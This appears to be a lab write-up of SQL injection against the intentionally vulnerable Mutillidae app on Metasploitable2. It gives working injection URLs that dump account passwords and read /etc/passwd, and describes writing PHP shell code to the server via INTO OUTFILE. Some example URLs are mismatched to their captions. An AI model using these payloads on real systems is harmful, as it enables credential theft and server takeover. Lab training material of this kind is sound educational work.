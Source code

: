 <img width="1919" height="963" alt="Screenshot 2025-10-24 183249" src="https://github.com/user-attachments/assets/1e9c2aee-3a5f-4e98-b73b-553f1b5e300b" />

<img width="1919" height="887" alt="Screenshot 2025-10-24 183304" src="https://github.com/user-attachments/assets/6cb6d91a-c49a-4f55-a9f8-21154e1615b1" />


The url once executed will  retrieve table names from the “owasp 10” database.
## Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.




The column names of the accounts is displayed below for the following url:

http://10.127.213.79/mutillidae/index.php?page=user-info.php&username=x'+union+select+1,table_name,null,null,5+from+information_schema.tables+where+table_schema='owasp10'%23&password=&user-info-php-submit-button=View+Account+Details







Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://10.127.213.79/mutillidae/index.php?page=user-info.php&username=x'+union+select+1,GROUP_CONCAT(column_name),null,null,5+from+information_schema.columns+where+table_name='accounts'%23&password=&user-info-php-submit-button=View+Account+Details



## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://10.127.213.79/mutillidae/index.php?page=user-info.php&username=Hemanath'+union+select+1,load_file('/etc/passwd'),null,null,5%23&password=88888&user-info-php-submit-button=View+Account+Details


<img width="1918" height="927" alt="image" src="https://github.com/user-attachments/assets/8841fe65-df74-492c-8b96-ffa4fe0374b0" />


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).




## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
